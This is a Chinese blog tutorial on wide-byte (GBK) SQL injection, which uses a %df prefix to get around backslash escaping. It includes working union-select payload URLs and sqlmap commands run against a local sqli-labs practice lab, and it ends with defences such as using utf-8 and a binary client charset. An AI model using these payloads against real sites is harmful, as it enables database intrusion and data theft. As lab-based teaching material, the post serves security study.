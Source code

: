 ```yaml
---
layout: post
title: 1.4.1-SQL注入防御绕过-宽字节注入
category: 
  - web安全
tags: 
  - web安全
  - sql注入
abbrlink: 2024290485
date: 2018-06-30 00:00:00
description: more
---
```


## 01 宽字节注入原理

> 什么是宽字节
> GB2312、GBK、GB8030、BIG5、Shift_JIS等这些都是常说的宽字节，实际为两字节。

站点可能为了防止SQL注入，会加\转义'，最后变成\'  

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/09/01.jpeg)

MySQL在使用GBK编码的时候，会认为两个字符为一个汉字。
使用%df'进行编码，两个字符组合，认为是一个汉字。  
注：前一个Ascii码大于128才能到汉字的范围

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/09/02.jpeg)

## 02 宽字节注入方法

	http://127.0.0.1/sqli-labs/Less-32/?id=%df' union select 1,(select user()),3--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/09/03.jpeg)

	http://127.0.0.1/sqli-labs/Less-32/?id=%df' union select 1,(select table_name from information_schema.tables where table_schema=database() limit 0,1),3--+ // 查表

	sqlmap:
	sqlmap -u "http://127.0.0.1/Less-32/?id=1" // 判断id不是注入点 因为被转义

	sqlmap -u "http://127.0.0.1/Less-32/?id=1%df" // 通过宽字节注入

--- 

> 宽字节注入应对策略：
+ 使用utf-8,避免宽字节注入；
ps：不仅在gbk，韩文、日文等等都是宽字节，都有可能存在宽字节注入漏洞。

+ mysql_real_escape_string,mysql_set_charset('gbk',$conn) // 替换 和 编码 两个函数一起使用

+ 可以设置参数，charcater_set_client=binary // 设置mysql的连接参数，使用二进制模式

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/09/04.png)

































